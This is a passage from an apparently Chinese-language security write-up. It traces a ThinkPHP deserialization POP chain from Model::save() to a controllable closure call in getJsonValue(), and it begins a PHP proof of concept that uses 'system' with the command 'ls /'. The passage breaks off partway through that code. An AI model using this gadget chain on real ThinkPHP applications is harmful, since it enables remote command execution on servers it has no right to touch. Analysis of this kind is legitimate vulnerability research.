 [![](assets/1709530629-6c8026c8fd995e5fbfe2f31a4dfecbd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110940-a4152aaa-d9d4-1.png)

通过分析，发现$closure 和$value 都可控，得到最后触发点

```plain
protected function getJsonValue($name, $value)
  {
    if (is_null($value)) {
      return $value;
    }

    foreach ($this->withAttr[$name] as $key => $closure) {
      if ($this->jsonAssoc) {
        $value[$key] = $closure($value[$key], $value);
      } else {
        $value->$key = $closure($value->$key, $value);
      }
    }
```

得到一条完整的 POP 链 Model.php => save() =>isEmpty() | updateData() => checkAllowFields() => db() => $this->table . $this->suffix=> 全局搜索 toString() => model\\concern\\Conversion.php => toJson() => toArray() => foreach() => getAttr($key) => getData()=> getValue() =>$value => getData($name) => getRealFieldName() => $fieldName/$data/$value 可控 => 返回 getValue() 方法=> 绕过两个 if 判断 => $this->withAttr 和$this->json 可控 => getJsonValue() => $this->jsonAssoc => 触发$closure($value\[$key\], $value)  
编写 POC

```plain
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['ls /']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
```